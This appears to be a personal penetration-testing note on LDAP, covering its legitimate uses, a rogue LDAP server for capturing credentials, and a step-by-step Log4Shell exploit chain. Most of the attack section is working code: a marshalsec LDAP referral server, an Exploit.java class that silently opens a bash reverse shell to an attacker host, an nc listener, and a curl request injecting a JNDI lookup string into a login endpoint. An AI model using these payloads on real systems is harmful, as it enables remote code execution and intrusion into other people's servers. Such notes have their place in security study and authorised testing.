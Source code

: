 # ldap

**Author:** Julien Bongars  
**Date:** 2025-09-24 23:55:48
**Path:** notes/infiltration/general/ldap.md

---

## LDAP Overview

Lightweight Directory Access Protocol

### Legitimate Uses

- **Authentication**: Key-value store for PAM authentication
- **Directory Services**: Centralized storage for user accounts, groups, and organizational data
- **Configuration Management**: Application settings and resource lookups
- **Corporate Directories**: Employee information, contact details, organizational structure

### Common LDAP Implementations

- **Active Directory** (Microsoft)
- **OpenLDAP** (Open source)
- **Apache Directory Server**
- **389 Directory Server** (Red Hat)

## Authentication Exploitation

### PAM LDAP Integration

```bash
# Typical PAM LDAP configuration
# /etc/pam.d/common-auth
auth required pam_ldap.so
account required pam_ldap.so

# LDAP client configuration
# /etc/ldap/ldap.conf
BASE dc=company,dc=com
URI ldap://ldap.company.com
```

### Forge LDAP Server Attack

```bash
# Set up rogue LDAP server to capture credentials
# Install OpenLDAP
apt-get install slapd ldap-utils

# Configure malicious LDAP server
# /etc/ldap/slapd.conf - point to your controlled directory
# Capture authentication attempts when clients connect

# Monitor authentication attempts
tail -f /var/log/slapd.log
```

## JNDI LDAP Exploitation (Log4Shell)

### Malicious LDAP Server Setup

```bash
# Using marshalsec for JNDI exploitation
wget https://github.com/mbechler/marshalsec/releases/download/v0.0.3/marshalsec-0.0.3-SNAPSHOT-all.jar

# Start malicious LDAP server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker-ip:8000/#Exploit"

# Server listens on port 1389 by default
# Responds with references to malicious Java classes
```

### Malicious Java Payload

```java
// Exploit.java - Gets executed on target system
public class Exploit {
    static {
        try {
            // Reverse shell payload
            String[] cmd = {"/bin/bash", "-c",
                "bash -i >& /dev/tcp/attacker-ip/4444 0>&1"};
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            // Fail silently
        }
    }
}
```

### Compilation and Hosting

```bash
# Compile malicious class
javac Exploit.java

# Host on HTTP server
python3 -m http.server 8000

# Listen for reverse shell
nc -lvnp 4444
```

### JNDI Payload Injection

```bash
# Inject JNDI payload into vulnerable application
# Common injection points:
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"user": "${jndi:ldap://attacker-ip:1389/Exploit}"}' \
  http://target/api/login

# Payload can be injected in:
# - HTTP headers (User-Agent, X-Forwarded-For)
# - Form fields
# - JSON parameters
# - Any user input that gets logged
```

## Attack Flow

1. **Setup Infrastructure**

   - Malicious LDAP server (marshalsec)
   - HTTP server hosting malicious Java class
   - Reverse shell listener

2. **Payload Injection**

   - Inject JNDI LDAP payload into target application
   - Payload gets processed by Log4j during logging

3. **LDAP Callback**

   - Target connects to attacker's LDAP server
   - LDAP server responds with Java class reference

4. **Remote Code Execution**
   - Target downloads and executes malicious Java class
   - Reverse shell established

## References

- [another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)
- [Marshalsec JNDI Attack Tool](https://github.com/mbechler/marshalsec)
